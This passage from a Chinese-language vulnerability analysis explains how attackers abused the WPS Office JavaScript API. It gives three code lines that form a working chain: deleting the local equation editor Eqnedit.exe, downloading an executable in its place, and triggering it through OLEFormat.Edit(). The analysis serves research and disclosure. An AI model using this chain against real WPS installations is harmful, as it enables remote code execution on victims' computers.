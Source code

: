 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT3iahqCkYYjmw1gI9aGgwgAAicA9pkGWMq7VqUvBpwBBt8ocUmbWXqHZw79Fia7gkn6gH0DvUnFic5AeQ/640?wx_fmt=png "")  
### 3. WPS JS API 利用  
  
根据网上信息的截图和介绍可以知道，攻击者利用 wps.Office.UploadFileToServer API删除了本地的公式编辑器 Eqnedit.exe ，再使用 window.wps.Office.DownloadFileFromServer API下载了恶意样本并保存为公式编辑器，最后通过某些API触发了公式编辑器的调用。  
  
经过对 jswpsapi.dll 的逆向，wps.Office.UploadFileToServer 在上传文件结束后，会获取第三个参数中 bDelLocalFile 的值，如果为true，则会删除原文件。  
```
wps.Office.UploadFileToServer("http://127.0.0.1/",filepath,"{\"bDelLocalFile\":true}")
```  
  
wps.Office.UploadFileToServer 可以下载文件，但无法覆盖已存在文件。这也是前面删除文件的意义。  
```
window.wps.Office.DownloadFileFromServer("http://127.0.0.1/download.exe", filepath);
```  
  
由于 WPS 的 JS API实现的功能和 VBA 的类似，所以在未找到 WPS API相关文档的情况下，参照 OLEFormat.Edit method文档最终构造出触发 OLE公式编辑的请求：  
```
# 需要文档开头包含一个 OLE 格式的公式，如果不在开头，则需要修改 Item 的值wps.ActiveDocument.InlineShapes.Item(1).OLEFormat.Edit()
```  
  
在 11.1.0.12313 的复现截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT3iahqCkYYjmw1gI9aGgwgAAsxGfcMialgUsicpQqjZHu7Dh1SHcDhN0Nwvy2CG3m8TKvR8Ql0TzFnjw/640?wx_fmt=png "")  
### 4. WPS JS API 利用版本测试  
  